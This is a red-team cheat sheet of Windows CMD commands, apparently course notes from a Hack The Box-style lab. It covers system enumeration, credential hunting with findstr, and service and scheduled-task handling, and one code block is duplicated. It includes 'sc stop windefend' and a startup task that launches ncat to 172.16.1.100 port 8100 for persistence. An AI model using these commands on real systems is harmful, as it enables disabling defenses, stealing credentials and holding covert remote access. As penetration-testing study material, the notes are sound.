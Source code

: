 ```yaml
---
title: Windows CMD Reference
tags: [windows, cmd, enumeration, persistence, red-team]
tools: [cmd, findstr, robocopy, xcopy, fsutil, sc, schtasks, wmic, net, tasklist]
---
```


# Windows CMD Reference

## File commands CMD

```cmd
# Basic system info
whoami
whoami /priv        # privileges
whoami /groups      # groups
systeminfo          # OS and patch details
hostname
ver                 # Windows version

ipconfig /all       # full network configuration
arp -a              # ARP cache

# Network and sharing
net localgroup      # show local groups
net share           # shared folders
net view            # list servers in the domain/workgroup

# Active processes and services
tasklist
tasklist /svc       # show associated services
```

## Enumeration

```cmd
# Basic system info
whoami
whoami /priv        # privileges
whoami /groups      # groups
systeminfo          # OS and patch details
hostname
ver                 # Windows version

ipconfig /all       # full network configuration
arp -a              # ARP cache

# Network and sharing
net localgroup      # show local groups
net share           # shared folders
net view            # list servers in the domain/workgroup

# Active processes and services
tasklist
tasklist /svc       # show associated services
```

## Finding files

[findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) - cheatsheet

```cmd
# Locate files
where /R
where /R C:\Users\student\ *.csv

find "password" "C:\Users\student\not-passwords.txt" 

# General find files
dir n:\*cred* /s /b
n:\Contracts\private\credentials.txt

# Grep like
findstr /s /i cred n:\*.*
n:\Contracts\private\secret.txt:file with all credentials
n:\Contracts\private\credentials.txt:admin:SecureCredentials!

# find compare
fc passwords.txt modded.txt /N
comp .\file-1.md .\file-2.md
```

## Env Variable

```cmd
echo %WINDIR%
set SECRET=HTB{5UP3r_53Cr37_V4r14813}
echo %SECRET%

# Registry locations (for reference)
# System-wide
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
# User-specific
HKEY_CURRENT_USER\Environment
```

## Services handling

```cmd
# Query services
sc query type= service
sc query windefend
sc stop windefend

tasklist /svc
net start
wmic service list brief

# Disable a service
sc config bits start= disabled
```

## Scheduled tasks

#### Query Syntax

```cmd
# View scheduled tasks (verbose, list output)
schtasks /Query /V /FO LIST

# Create a task that runs at system startup (persistence example)
schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

/create : to tell it what we are doing
/sc : we must set a schedule
/tn : we must set the name
/tr : we must give it an action to take

# Modify an existing task (change run user / password)
schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

/tn 	Designates the task to change
/tr 	Modifies the program or action that the task runs.
/ENABLE 	Change the state of the task to Enabled.
/DISABLE 	Change the state of the task to Disabled.

# Query a specific task (verbose)
schtasks /query /tn "My Secret Task" /V /fo list

# Delete a task
schtasks /delete /tn "My Secret Task" /f
```

## Quick Notes

- `systeminfo` often reveals missing hotfixes and patch-level details useful for exploitation/privesc checks.
- `findstr /s /i` and `where /R` are invaluable for credential hunting (`password`, `secret`, `key`, `token`, `cred`).
- Check both user and system environment vars and registry-backed env entries for secrets or persistence.
- Services: watch for unquoted service paths, weak ACLs, or services running as SYSTEM.
- Scheduled tasks are a common persistence vector; always enumerate with verbose output.
- Use `tasklist /svc` and `wmic service list brief` to map processes to services and investigate privilege contexts.

